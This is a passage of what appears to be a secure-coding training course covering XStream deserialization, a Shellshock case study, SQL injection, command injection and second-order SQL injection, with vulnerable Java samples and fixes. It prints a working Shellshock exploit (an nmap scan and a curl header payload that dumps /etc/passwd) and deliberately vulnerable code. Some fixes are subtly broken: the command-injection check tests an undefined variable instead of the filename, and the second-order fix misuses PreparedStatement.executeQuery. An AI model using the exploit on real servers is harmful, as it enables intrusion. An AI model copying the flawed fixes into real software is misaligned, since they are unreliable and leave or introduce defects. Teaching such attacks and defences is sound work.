      /* Handle various XStream parsing exceptions */
      return null;
    }
  }
}
----

To mitigate the issue with the *default XStream object having access to any and all classes available to the code*, the *scope of classes XStream has access to must be reduced to only those that are required and were designed by the developer in a way that does not permit execution of any malicious code*. +
`NoTypePermission.NONE` sets the TypePermissions to None, and XStream may no longer access the entire space of classes available to running code.

Then by adding a class-specific permission `ExplicitTypePermission`, the developer guarantees that the only classes that may be deserialized by XStream - are the ones of their choosing, like the `AccountManager.class` in or example.

Which content types are vulnerable to deserialization?

    * Deserialization does not depend on medium +
    Any serialization format, including proprietary formats, can be used for deserialization – if implementation allows.

==== Components With Know Vulnerabilities

Code libraries, both proprietary and third-party, need constant maintenance and updates. Even if proprietary code is 100% secure, failure to update third-party components, and particularly updates that mitigate security vulnerabilities, will likely leave environments vulnerable to attack.

When development teams use component-heavy development patterns, they sometimes not even understand which components they use in their applications or APIs, much less keeping them up to date. +
Developers often do not know:

    * The versions of all components they use (both client-side and server-side);
    * If the software they use (OS, web/application server, database management systems, run-time environments, and libraries) is vulnerable, unsupported, or out of date;
    * If the underlying platform, frameworks, and dependencies are fixed or upgraded in a timely fashion;
    * If the compatibility of updated, upgraded, or patched libraries is tested.

Some of the largest breaches (like the *Equifax hack*) have relied on exploiting known vulnerabilities in components.
The nastiest consequence of exploiting such kind of vulnerability is the *Remote Code Execution* (RCE).
If you can execute the remote Bash command on the server - then you have a foot in the door, and can do everything to this server:

    * Get access to internal data and dump internal files for public retrieval.
    * Upload and execute a backdoor.
    * Use the server as a cryptocurrency miner.
    * Use the server as a part of a botnet.

In 2014, right after the *Heartbleed* vulnerability was disclosed to the general public, another vulnerability of comparable severity was discovered and called *ShellShock*. We'll use it as a case study, as it is practically universal and attacks one of the most common server operating systems in a way that also exposes many Web technologies to direct attack.

This vulnerability affected web servers where *mod_cgi* was used, and the Common Gateway Interface (CGI) was written in a shell script or any commands were executed from the CGI.

*mod_cgi* is responsible for handling the execution of shell/Perl/Python/PHP scripts on the web server. Usually, the web server passes user variables to those scripts so they can do their work. The *ShellShock* vulnerability allowed an attacker to pass a command as a variable that gets executed by Bash.

In this lesson, the *ShellShock* vulnerability in the *cPanel* management tool will be explored. cPanel is often embedded in Apache web-server configurations.

Alice is a software developer for a Suredence insurance company. She has just finished developing a record keeping application. She has it thoroughly reviewed and tested by her peers and is satisfied that it is secure and ready for deployment.

Due to the tight schedule of a DevOps team, Alice is tasked with deploying her application herself. However, Alice is not particularly experienced with web-server internals and configuration files editing. So, she decided to use an *older Apache web-server image* she found in a repository in her organization, which was preconfigured with *cPanel* (that provides a graphical interface and automation tools to simplify the process of hosting a web site), and easily deployed her application there.

The vulnerable application pane loads a record keeping application. Alice is an authorized user of this application. She logs in with the following credentials to check if everythind was deployed correctly:

    Username: alice@suredence.com
    Password: Alice123!

Bob is a hacker. He scans the Web, testing for old and recent Bash vulnerabilities (there is always a possibility that someone forgot to run an update on their server). +
In his discovery, Bob uses an Internet port scanner and a Proxy tool to intercept HTTP/S requests, allowing him to also tamper with them and create malicious request payloads.

Bob knows that insurance companies may store large amounts of user personal data which could be a great trophy for a skillful hacker. +
He intercepted several HTTP requests to the records.suredence.com server and noticed that HTTP response headers disclose an older Apache web server version, which could indicate a lacking patching policy and process.

He decided to test this web server for the Shellshock vulnerability specifically. For this purpose, Bob uses a dedicated script which is built into recent versions of *nmap* port scanner:

    nmap -sV -p443 --script http-shellshock records.suredence.com

[source,shell]
----
[bob@hackserver~]# nmap -sV -p443 --script http-shellshock records.suredence.com
Starting Nmap 7.60 ( https://nmap.org ) at Tue Mar 09 2021 21:59:31 GMT+0100 (heure normale d’Europe centrale) 
Nmap scan report for records.suredence.com (2.2.27)
Host is up (0.023s latency).
rDNS record for 2.2.27: server-2-2-27.fra2.r.cloudfront.net
PORT    STATE SERVICE  VERSION
443/tcp open  ssl/http Apache httpd 2.2.27
| http-shellshock:
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|   State: VULNERABLE (Exploitable)
|   IDs:  CVE:CVE-2014-6271
|   This web application might be affected by the vulnerability known as Shellshock. It seems the server
|   is executing commands injected via malicious HTTP headers.
|   
|   Disclosure date: 2014-09-24
|   References:
|   http: //www.openwall.com/lists/oss-security/2014/09/24/10
|   https: //cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|   http: //seclists.org/oss-sec/2014/q3/685
|   http: //cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
Service detection performed. Please report any incorrect results at https: //nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.12 seconds
[bob@hackserver~]#
----

Bob receives a response that indicates that records.suredence.com server, where Alice's application runs, is *vulnerable to Shellshock*.

Bob decides to try a code injection attack on records.suredence.com server. 
In the console, Bob creates a malicious request to Alice's server:

    curl -H "custom:() { :; }; echo Content-Type: text/html; echo; /bin/cat /etc/passwd" http://records.suredence.com

In the console, Bob receives a response, where the content of the passwd file from Alice's webserver is displayed. +
Now we see that despite her code being secure on its own, Alice forgot to update the system, whose version of *cPanel* is vulnerable to Shellshock.

You could probably notice that it’s super easy to execute the attack, and there is no authentication required when exploiting Bash via CGI scripts.

[source]
----
[bob@hackserver~]# curl -H "custom:() { :; }; echo Content-Type: text/html; echo; /bin/cat /etc/passwd" http://records.suredence.com
> GET http://records.suredence.com
> Host: records.suredence.com
> User-Agent: curl/7.54.0"}
> Accept: */*
> "custom: () { :; }; echo Content-Type: text/html; echo; /bin/cat /etc/passwd"
root:x:0:0:root:/root:/bin/bash 
 daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
  bin:x:2:2:bin:/bin:/usr/sbin/nologin 
 sys:x:3:3:sys:/dev:/usr/sbin/nologin 
 sync:x:4:65534:sync:/bin:/bin/sync 
 
  ... 
 
  Content-Type: text/html 
 
 <!DOCTYPE html> 
 <html lang='en'> 
 <head> 
  <meta http-equiv="Content-Type" content="text/html; charset=UTF-8"> 
  <title></title> 
 </head> 
 <body> 
  ... 
 </body>
[bob@hackserver~]#
----

The *Shellshock* vulnerability affected certain version of the GNU Bash parser (up to version 4.3). +
The vulnerability resided in *the ability to arbitrarily define environment variables which specify a function definition within a Bash shell. When Bash continued to process shell commands after the function definition, a code injection attack became possible.*

*The Shellshock bug is a parser bug and an encapsulation bug*. +
When we set the value of some environment variable "x", we make sure it is wrapped in apostrophes ('). Shellshock occurs despite proper encapsulation allowing it to be escaped.

Let's check if our Bash is vulnerable. Set the following value into "x":

    env x='() { :;}; echo vulnerable' bash -c 'echo hello'

[source,bash]
----
[root@recordssuredence~]# env x='() { :;}; echo vulnerable' bash -c 'echo hello'
 vulnerable
 hello
[root@recordssuredence~]#
----

If your Bash is vulnerable, this will actually print two words: *vulnerable* and *hello* - to standard output.

Lets looks why this happens:

    * First, the Bash parser allows the character combination `(){:;}` (which is a function definition) to terminate the apostrophe.
    * Then " ; " terminates the code line.
    * After that echo vulnerable is executed as Bash code.
    * And at the end, `echo hello` command is read from the string and is executed by Bash.

====== Remediation

One may think that those servers that were operating in a Microsoft-centric environment were safe. But non-Microsoft components could exist in a corporate ecosystem, for example, sitting in front of the Microsoft application stack and route the traffic before it reaches the web servers.

Also many IoT devices (including routers) run embedded Linux distributions with Bash shells and therefore were also vulnerable to this kind of attacks (and may be still vulnerable now). Who can ever think of updating a smart light bulb?

To mitigate such issues, there should be a *patch management process* in place to:

    * Remove unused dependencies, unnecessary features, components, files, and documentation.
    * Keep inventory of the versions of both client-side and server-side components (e.g. frameworks, libraries, etc.) and their dependencies. Continuously monitor sources like CVE and NVD for vulnerabilities in the components.
    * Only obtain components from official sources over secure links. Prefer signed packages to reduce the chance of including a modified, malicious component.
    * Monitor for libraries and components that are unmaintained or do not create security patches for older versions.

Alice wants to know what she could do to prevent the issue occurring in the future. +
As a general rule, Alice should always check that her *infrastructure is up to date on all its software versions*, and, if she is not able to, she should contact someone who can.

In our specific example, she should upgrade to a new version of Bash (by running `sudo apt-get install bash`), as Bash is used by Apache *mod_cgi*, which in turn is used by *cPanel*. +
Then *she should check that no code can be executed after the end of a Bash function*, because sometimes patches against vulnerabilities are not entirely effective.

[source,bash]
----
[root@recordssuredence~]# sudo apt-get install bash
Reading package lists... Done
Building dependency tree
Reading state information... Done
Calculating upgrade... Done
The following packages will be upgraded
bash bash-builtins bash-completion bash-doc bash-static bashdb libbashlibbash-doc node-bash-match
9 upgraded, 0 newly installed, 0 to remove and 125 not upgraded.
[root@recordssuredence~]#
----

Let's make Alice run the following command once again to check if the update fixed this issue:

    env x='() { :;}; echo vulnerable' bash -c 'echo hello'

[source,bash]
----
[root@recordssuredence~]# env x='() { :;}; echo vulnerable' bash -c 'echo hello'
 hello
[root@recordssuredence~]#
----

As you can see, only a legitimate response was output to console.

Why vulnerabilities in third-party software components persist?

    * Update of third-party components used in applications usually requires a big amount of testing and is often considered as an unimportant technical debt +
    *Security is everybody's job* meaning both *security engineers and developers* should participate in tasks aiming at security. Vendors tend to mitigate vulnerabilities as soon as possible, and it is really important to patch the vulnerable component according to its severity level. Update of components indeed requires a lot of testing but it should be included into plans and performed in a timely manner.
    
== Java Advanced

=== Injection

==== SQL Injection

.Vulnerable code
[source,java]
----
// Both "comment" and "type" variables should be defined for the "getPaymentsList" method to work properly.
​
public static ArrayList<Payment> getPaymentsList(Connection connection, int currentUserId, int paymentType, String paymentComment) throws SQLException {
  Statement statement = connection.createStatement();
  String query = "select * from sqli.payments where userid = " + currentUserId + " and type = " + paymentType + " and comment LIKE '%" +paymentComment + "%' ORDER BY date";
  
  ResultSet rs = statement.executeQuery(query);
  ArrayList<Payment> payments = new ArrayList<>();
  while (rs.next()){
    Payment payment = new Payment();
    payment.setAmount(rs.getInt("amount"));
    payment.setType(rs.getInt("type"));
    payment.setComment(rs.getString("comment"));
    payment.setDate(rs.getDate("date"));
    payments.add(payment);
  }
  connection.close();
  return payments;
}
public class Payment {
  private Integer amount;
  private Date date;
  private Integer type;
  private String comment;
  //getters and setters
}
----

One could probably think about *input validation* (i.e. checking of legal characters, minimum/maximum string lengths, removal of "malicious" characters) as a remediation strategy, but this is a *bad approach*.
Input validation is based on blacklists, and blacklists *could be bypassed by a skilled attacker*.

*Prepared statements* (aka parameterized queries) are an *effective way to prevent SQL injection attacks*.

Prepared statements are used to abstract SQL statement syntax from input parameters. Statement templates are first defined at the application layer, and the parameters are then passed to them.

Aside from better protection against SQL injection attacks, prepared statements offer improved code quality from a legibility and maintainability perspective due to the separation of the SQL logic from its inputs.

Let us now see how a fix can be applied to our vulnerable example to remediate the SQL Injection vulnerability.

.Remediation
[source,java]
----
// Both "comment" and "type" variables should be defined for the "getPaymentsList" method to work properly.
​
//public static ArrayList<Payment> getPaymentsList(Connection connection, int currentUserId, int paymentType, String paymentComment) throws SQLException {
//  Statement statement = connection.createStatement();
//  String query = "select * from sqli.payments where userid = " + currentUserId + " and type = " + paymentType + " and comment LIKE '%" +paymentComment + "%' ORDER BY date";
  
//  ResultSet rs = statement.executeQuery(query);
​
public static ArrayList<Payment> secureGetPaymentsList(Connection connection, int currentUserId, int paymentType, String paymentComment) throws SQLException {
  String query = "select * from sqli.payments where userid = ? and comment LIKE ? and type = ? ORDER BY date";
  PreparedStatement statement = connection.prepareStatement(query);
  statement.setInt(1,currentUserId);
  statement.setString(2,"%"+paymentComment+"%");
  statement.setInt(3,paymentType);
  
  ResultSet rs = statement.executeQuery();
  
  ArrayList<Payment> payments = new ArrayList<>();
  while (rs.next()){
    Payment payment = new Payment();
    payment.setAmount(rs.getInt("amount"));
    payment.setType(rs.getInt("type"));
    payment.setComment(rs.getString("comment"));
    payment.setDate(rs.getDate("date"));
    payments.add(payment);
  }
  connection.close();
  return payments;
}
public class Payment {
  private Integer amount;
  private Date date;
  private Integer type;
  private String comment;
  //getters and setters
}
----

Another way to avoid SQL injections is to let your framework take care of operations that require interaction with the database.

[source,java]
----
public interface PaymentsRepository extends CrudRepository<Payments, Long>{ 
  @Query(value = "select * from payments p where p.userid = :userId and p.type = :type and p.comment like concat('%',:comment,'%') ORDER BY p.date" , nativeQuery = true)
  ArrayList<Payments> getFilteredPayments(@Param("type") int type,
                                          @Param("comment") String comment,
                                          @Param("userId") int userId);
}
----

Alternatively, you can let *Spring* handle the repository creation. It provides basic CRUD operations out of the box.

If you need a query, you can create a method and annotate it with `@Query`. The query derives parameters from the method arguments. This approach doesn't let SQL injections happen.

==== Command Injection

A *Command Injection vulnerability* results in the execution of arbitrary system commands on the host operating system. Command Injection attacks are possible when an application passes unsafe user-supplied data to a system command. Using this input, the malicious command is created and executed server-side with the same privileges as the application.

In the following code sample, user-supplied data is passed in the filename of the uploaded file. This file is then resized by the ImageMagick component, and the filename is concatenated with the arguments of the bash command.

.Vulnerable code
[source,java]
----
public class SomeClass {
  public someMethod(){
    /*
    Processing the user request and file upload. 
    */
    convert(filename, userId); 
  }
}
public class ImageTools{
  public static void convert(String filename, long userId) throws IOException {
    ProcessBuilder pb = new ProcessBuilder();
    pb.command("bash","-c","convert /path/to/uploaded/files/" + filename + " -resize 50% /path/to/screenshots/folder/" + userId 
    + "/randomlyGenerateFileName.jpg"); 
    pb.start(); 
  }
}
----

`bash` command is called with the specified arguments. Arguments for `bash` command are concatenated with the name of the uploaded file. The `filename` variable is not sanitized and thus malicious filename can break the command syntax and insert additional commands.

When the *Command Injection* attack is successful, it could be used to seriously compromise the application and even the underlying server. Once the underlying server is compromised, an attacker could mount attacks against other systems the server is connected to within the DMZ or the internal network.

The most effective way to prevent Command Injection vulnerabilities is to *avoid calling OS commands* from the application code (maybe the same result could be achieved by using some API or library).

If the execution of OS commands cannot be avoided, *don't use user-supplied input* to run them.

If it is not possible to avoid user-supplied input in calling out to OS commands, then *strong input validation* must be implemented. It must be *based on a whitelist of allowed characters*. *Don't use blacklists* because they tend to be bypassed by a skilled attacker.

Please note that even if you whitelist only alphanumeric symbols, and the attacker fails to break the syntax of the existing command and inject his malicious command, he could still be able to add an argument to the existing command that would *change the result of its execution*.

A defense-in-depth approach also recommends to carefully set permissions for the application and its components to prevent OS commands execution.

Let us now see how a fix can be applied to our vulnerable example to remediate the command injection vulnerability.

.Remediation
[source,java]
----
public class SomeClass {
  public someMethod(){
    /*
    Processing the user request and file upload. 
    */
    if (okName.matches("[A-Za-z0-9/.]+")){
    convert(filename, userId); }
  }
}
public class ImageTools{
  public static void convert(String filename, long userId) throws IOException {
    ProcessBuilder pb = new ProcessBuilder();
    pb.command("bash","-c","convert /path/to/uploaded/files/" + filename + " -resize 50% /path/to/screenshots/folder/" 
    + userId + "/randomlyGenerateFileName.jpg"); 
    pb.start(); 
  }
}
----

==== Second Order SQL Injection

*Second-Order SQL Injection* happens when a *malicious user saves the malicious payload in the database of a server-side application*, and then this saved payload is used by another server-side application in its requests to the database. A successful Second-Order SQL injection attack exposes the data of the underlying database directly to the attacker. 

The typical flow of the Second-Order SQL Injection looks like the following:

    1. Tainted data is inserted into the database securely using an approach that prevents SQL injections.
    2. Tainted data is then insecurely used as a part of an SQL query leading to the SQL injection.

.Vulnerable code
[source,java]
----
private static String getUsername(Connection connection, long id) throws SQLException {

  String query = "select username from users_link where id_ibank = ?";

  PreparedStatement prStatement = connection.prepareStatement(query);
  prStatement.setLong(1,id);
  ResultSet rs = prStatement.executeQuery();
  rs.next();

  return rs.getString("username");
}
private static ArrayList<Transfer> GetTransferList(Connection connection, String username) throws SQLException {

  String query = "select * from transfers where username = \'" + username + "\'";

  // Careful! Unsecure "simple" statement here!
  Statement statement = connection.createStatement();
  ResultSet rs = statement.executeQuery(query);

  ArrayList<Transfer> transfers = new ArrayList<>();
  while (rs.next()){
    Transfer transfer = new Transfer();
    transfer.setAmount(rs.getLong("amount"));
    transfer.setFrom(rs.getString("from"));
    transfer.setTo(rs.getString("to"));
    transfer.setCity(rs.getString("city"));
    transfer.setCountry(rs.getString("country"));
    transfers.add(transfer);
  }
  connection.close();

  return transfers;
}
----

In the previous code sample, the records are selected from the database using the user-supplied parameter that was saved to the database. If the value of that parameter is tainted, then the query will result in the SQL Injection.

But how could it happen, that the tainted input was saved to the database without any sanitization?

This parameter was passed between the two applications, and the developer of the first app thought that sanitization will be performed on the side of the second app, but the developer of the second app thought that it would get already sanitized value and didn't implement any checks. As a result, no sanitization was performed along the way to the database.

If we cannot guarantee that the user-supplied parameter that we pass to our query is properly sanitized (and in modern complex information systems it is not really possible to provide such guarantees), then we should write the queries in a secure manner.

*Prepared statements* (aka parameterized queries) are an effective way to *prevent all kinds of SQL injection attacks*.

Prepared statements are used to *abstract SQL statement syntax from input parameters*. Statement templates are first defined at the application layer, and the parameters are then passed to them.

Aside from better protection against SQL injection attacks, prepared statements offer *improved code quality* from a legibility and maintainability perspective due to the *separation of the SQL logic from its inputs*.

===== Remediation

Let us now see how a fix can be applied to our vulnerable example to remediate the Second-Order SQL Injection vulnerability.

.Remediation
[source,java]
----
private static ArrayList<Transfer> secureGetTransferList(Connection connection, String username) throws SQLException {
  String query ="select * from transfers where username = ?";
  PreparedStatement statement = connection.prepareStatement(query);
  statement.setString(1,username);
​
  ResultSet rs = statement.executeQuery(query);
  ArrayList<Transfer> transfers = new ArrayList<>();
  while (rs.next()){
    Transfer transfer = new Transfer();
    transfer.setAmount(rs.getLong("amount"));
    transfer.setFrom(rs.getString("from"));
    transfer.setTo(rs.getString("to"));
    transfer.setCity(rs.getString("city"));
    transfer.setCountry(rs.getString("country"));
    transfers.add(transfer);
  }
  connection.close();
  return transfers;
}
----

Another way to avoid SQL injections is to let your *framework* (like Spring) take care of operations that require *interaction with the database*:

[source,java]
----
public interface TransfersRepository extends CrudRepository<Transfers, Long> { 
  List<Transfers> findByUsername(String username);
}
----

==== Use of insufficiently random values

TO BE COMPLETED

